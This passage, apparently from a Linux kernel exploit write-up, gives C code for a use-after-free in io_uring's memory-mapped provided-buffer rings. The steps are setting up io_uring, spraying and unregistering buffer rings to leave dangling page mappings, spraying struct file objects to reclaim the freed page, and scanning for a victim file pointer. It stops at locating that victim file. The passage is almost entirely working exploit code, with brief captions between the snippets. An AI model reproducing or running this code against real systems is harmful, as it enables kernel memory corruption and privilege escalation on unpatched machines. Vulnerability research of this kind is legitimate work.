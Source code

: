 Setup io_uring:

```c
  struct io_uring_params params = {.flags = IORING_SETUP_NO_SQARRAY};
  int uring_fd = SYSCHK(syscall(__NR_io_uring_setup, /*entries=*/40, &params));
```

Spray pbuf and mmap buffer in order to create multiple single-page UAFs at the same time to increase the exploit stability:

```c
  for (int i = 0; i < SPRAY_PBUF_NUM; i++) {
    struct io_uring_buf_reg reg = {
        .ring_entries = 1, .bgid = i, .flags = IOU_PBUF_RING_MMAP};
    SYSCHK(syscall(__NR_io_uring_register, uring_fd, IORING_REGISTER_PBUF_RING,
                   &reg, 1));

    pbuf_mappings[i] =
        SYSCHK(mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, uring_fd,
                    IORING_OFF_PBUF_RING + (i << IORING_OFF_PBUF_SHIFT)));
    logi("[pbuf %d] mapped at %p", i, pbuf_mappings[i]);
  }
```

Trigger page UAF:

```c
  for (int i = 0; i < SPRAY_PBUF_NUM; i++) {
    struct io_uring_buf_reg unreg = {.bgid = i};
    SYSCHK(syscall(__NR_io_uring_register, uring_fd,
                   IORING_UNREGISTER_PBUF_RING, &unreg, 1));
  }
```

Spray enough `struct file` to reuse the UAF page from PCP list

```c
  char buf[1024] = {};
  for (int i = 0; i < SPRAY_FILE_NUM; i++) {
    spray_fds[i] = SYSCHK(open("/tmp/tmp_file", O_RDWR | O_CREAT, 0666));
    // later we can observe the write retval at victim_file->f_pos
    SYSCHK(write(spray_fds[i], buf, i));
  }
```

Locate victim_file:

```c
  void *victim_file_addr = NULL;
  for (int i = 0; i < SPRAY_PBUF_NUM; i++) {
    if (victim_file_addr)
      break;
    for (int j = 0; j < PAGE_SZ; j += ALIGNED_FILE_SZ) {
      size_t shmem_file_operations =
          *(size_t *)(pbuf_mappings[i] + j + OFFSET_FILE_FOP);
      if ((shmem_file_operations & 0xfffff) ==
          (SHMEM_FILE_OPERATIONS & 0xfffff)) {
        victim_file_addr = pbuf_mappings[i] + j;
        logi("victim_file_addr %p", victim_file_addr);
        break;
      }
    }
  }
```
